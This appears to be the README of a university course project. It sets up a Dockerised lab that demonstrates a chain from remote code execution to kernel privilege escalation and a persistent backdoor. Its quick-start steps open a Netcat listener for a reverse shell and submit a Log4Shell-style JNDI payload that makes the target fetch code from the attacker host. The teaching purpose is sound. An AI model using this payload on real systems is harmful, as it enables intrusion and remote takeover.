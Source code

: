 # A Practical Demonstration of an Exploitation Chain: From Remote Code Execution to Full System Compromise

## Project Overview

This project is developed as part of the **Cybersecurity** course at the **University of Messina**.  
It presents a practical demonstration of an exploitation chain involving:

- **Remote Code Execution (RCE)** via a vulnerable web application
- **Privilege Escalation** through kernel-level exploitation
- **Installation of a persistent backdoor** for post-exploitation access

## Requirements

- **Linux Kernel 5.8.x**  
  (Tested with `5.13.0-19`, default in Ubuntu 21.04)
  You can use `uname -r` to check your kernel version
- **Docker** and **Docker Compose**

---

##  Quick Start

### 1. Clone the Repository
```bash
git clone https://github.com/marco-giacobbe/rce-to-system-compromise.git
cd rce-to-full-compromise-demo
```
### 2. Build and Start the Environment
```bash
docker-compose up --build
```
This will build all containers (attacker, backend, and database) and start the application

### 3. Access the Target Web
Through your browser visit:
```
http://localhost:8080/
```

### 4. Set Up the Attacker Listener
In a new terminal, open a shell inside the attacker container
```bash
docker exec -it attacker bash
```
Start a Netcat listener to wait for the reverse shell:
```bash
nc -lp 6666
```

This listen for the reverse shell triggered by the exploit.

### 5. Perform the attack via Web Interface
For example:
  - Submit the payload `${jndi:ldap://attacker:1389/Exploit}` through the vulnerable form on the frontend site.
  - Request the page `http://localhost:8080/${jndi:ldap://attacker:1389/Exploit}`
  - You can also build your own payload.
